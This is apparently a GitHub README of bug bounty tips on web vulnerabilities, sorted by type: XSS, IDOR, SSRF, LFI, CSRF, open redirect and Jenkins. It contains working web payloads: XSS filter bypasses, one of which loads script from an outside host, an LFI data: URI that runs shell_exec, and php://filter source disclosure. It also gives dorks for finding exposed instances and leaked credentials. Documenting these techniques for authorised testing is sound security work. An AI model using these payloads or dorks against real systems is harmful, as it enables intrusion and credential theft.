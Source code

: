 # Bug Bounty Tips

### Recon
- Don't stop when you see the response forbidden/not found on the target you are testing, run dirsearch or any tool you prefer to find endpoints, like recon in [this writeup](https://medium.com/bugbountywriteup/900-xss-in-yahoo-recon-wins-65ee6d4bfcbd); or google the site (site:domain.com) you may find an endpoint which is accessible, like in [this writeup](https://medium.com/@sudhanshur705/story-about-my-first-bug-bounty-9fe710be8241).

### XSS
- I love it when a site creates a filter to 'try' prevent something like XSS (or even certain file extensions from being uploaded:D). In this case, [xss filter bypass: </script><%0dscript%20src=\http://mysite.com/yay.js>](https://www.bugbountynotes.com/forum/viewpost?id=100)
- Have you ever come across an issue, where you could pop XSS but parenthesis () gets filtered ? this payload ``onfocus="alert`1`"autofocus=`` will bypass that problem.
- "URL-encoding payload symbols" AND "The fragment(`#`) isn’t sent to the server - this means that no server-side firewall can see it, so it cannot stop attacks coming from this direction."
  - `https://www.bugbountytraining.com/challenges/challenge-10.php#?message=%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
  - `https://www.bugbountytraining.com/challenges/challenge-10.php?message=#%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
- The obstacle was to made the JavaScript code execute without error (the browser stops script execution on the first error).
  - ``http://try.harisec.com/chals/qli/?q=testing\&format=});alert(1);a=function(){`;%3C!--``
  - The trick here was to use an unusual way to comment the JavaScript code until the end of line (`<!--`) as the usual sequence `//` was also encoded.
  - The last trick was to use ES6 template strings ``(`)`` to be able to combine two reflections and finally exploit the injection.
```
      <script type="text/javascript">
        function init() {
          $(document).ready(function () {
            logTrackingData({searchType:"simple",query:"testing\",format:"});alert(1);a=function(){`;&lt;!--",pageId:"12345",pageNo:"1",searchCategory:"210",suggestions:"",results:""});
          })
        }
      </script>
```
- You can bypass a lot of XSS filters using HTML comments. They bypass it because they don't look/act like other tags. You can sometimes insert additional HTML too.
  - Example: `<!----><script>alert(0);</script>`
- By removing the "Content Security Policy" header from the response, we could check if the alert box not popping because of CSP. Or we could check CSP violation error message in "Console" in Chrome debug tool.
- If you open the url in the browser and see nothing but blank page, do not assume there is nothing there.
  - ALWAYS check the source code. There might be a bunch of JavaScript or e.g. some commented source code from server.
- ALWAYS check the full response on any request. Errors can sometimes give u the keys to the kingdom if u actually figure out what ur looking at witin the error response.

### IDOR

- When you're looking at an asset that may use a microservices architecture, look for IDOR vulnerabilities using path traversal. E.g. `https://example/?id=1/../2`.
  - The authorization check may pass because the user is allowed to see resource 1 and the system ignores /../2 in the authorization layer. This could work because some microservice architectures use HTTP to transport messages.
  - When one of the microservices implemented an HTTP endpoint like "/resource/:id" and it trusts the message from the sender, you may end up requesting "/resource/1/../2", which resolves to "/resource/2", given you access to an object you may not be authorized to see.
  - Yeah, I have encountered several issues of this type. like `https://example/?id=1/.../..../..../id=2` but never ended up in path traversal vulnerabilities.

### Information Disclosure

- Want to find some internal code of companies or some sample codes of new features? Checkout with: `site:http://repl.it  intext:<companydomain>`. In companydomain, if you know the internal domain it is even better.
  - `site:http://gist.github.com`
- Search for public Trello boards of companies, to find login credentials, API keys, etc. Or if you aren't lucky enough, then you may find companies' Team Boards sometimes with tasks to fix security vulnerabilities.

### SSRF

- a = Find fixed SSRF. b = Find open redirection in whitelisted domains. C = Amazon Aws metadata API.
  - a+b+C = Boom.
- Just had a weird SSRF 'bypass' which would only pull data from their domain so anything you queried would be `hxxps://www.theirdomain.com/reflectedhere/`. Weirdly using `/%2F//mysite.com/` caused it to hit external sites.

### LFI

- When lfi doesnt work to get `/etc/passwd` for example, you can always try to get source code disclosure by using the function of php://filter: `php://filter/convert.base64-encode/resource=index`
- When you came up with a file= parameter before trying for other rfi see phpinfo page is accessible or not you might get some juicy information. e.g.`file=data:text/plain, <?php phpinfo(); ?>`
  - Why prefer phpinfo() when you can `data:text/plain, <?php echo shell_exec("ls"); ?>`? (in both cases, allow_url_include=1).
  
### CSRF

- When testing for CSRF, send the POST parameters using GET method, eg: `GET /[post endpoint]?postprm1=value&postprm2=value2`. You will be surprised how many developers forget to add csrf protection on GET methods of the same endpoints.
  
### Higher Privilege

- If a website does not verify email, try signing up with <whatev>@domain.com (the company email). Sometimes this gives you higher privilege like deleting/viewing any other user's profiles etc.
  
### Hiden Endpoints

- A redirect to SSO does not always mean that every endpoints are behind the SSO. Specially if it is a popular instance like JIRA, Confluence etc, check to see if you can still hit endpoints like search sections, filters etc.

### Jenkins

- Sometime an open Jenkins dashboard can be as critical as below finding. A Shodan query to list all such publically accessible Jenkins Instance: `https://www.shodan.io/search?query=x-jenkins+200`
- sometimes you find those PATHs that forwards to a login page & you can't see the content inside them (ex: `/path/to/secret` --> Google login).
  - Take all these PATHs, prepend `/public/` to all of them as: `/public/path/to/secret`, got access to a Jenkins instance.

### HTTP Methods

- If server only allows GET and POST method, then try adding "X-HTTP-Method -Override: PUT to achieve RCE via PUT method.

### Open Redirection

- For Open Redirects you can bypass a lot of WAF using a special character which a lot of browsers (such as FireFox) convert into a '.' which will complete your URL.
  - The character is: 。
  - Usage: redirecthere。com
- There is no redirect using location header and the response code is 200 but the author still got redirected, which can mean only one thing, the redirect performed using javascript in the browser. Usually it means something like this: `window.location.href = nextURL;`. In theory if someone can control the `nextURL` parameter, he can perform XSS: `window.location.href = javascript:alert(1);//` or `window.location.href = data:text/html;HTML_CODE`.
- Using "Content Security Policy" to define which sources are allowed to be loaded could stop browser following 302 redirection (If this works, CSP violation error message will show in "Console" in Chrome debug tool). As show in [this writeup](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/).

### TOOLS
  
- Don't forget the google dorks, sometimes when you can't find nothing, let google find something for you. Check [this list of advanced google dorks](https://pastebin.com/zYPZNbMK) and use them.
  - Use of Google dorks and the site operator is a good way to identify vulnerable apps on sites with bounty. The inurl:/OA_HTML to get [unpatched instances with XSS or SQLi](https://the-infosec.com/2018/11/06/oracle-ebs-security-auditing/) is one of them.
  - To discover domains deployed on Github for subdomain takeover, following google dork can be used :- intext:"There isn't a Github Pages site here" and intitle:"Site not found · GitHub Pages".
- Always check the error message in "Console" in Chrome debug tool.
- Debugging Javascript can yield gold. You can edit source files directly by enabling "Local Overides" in Chrome. Changes made will persist, even after you refresh the page! 
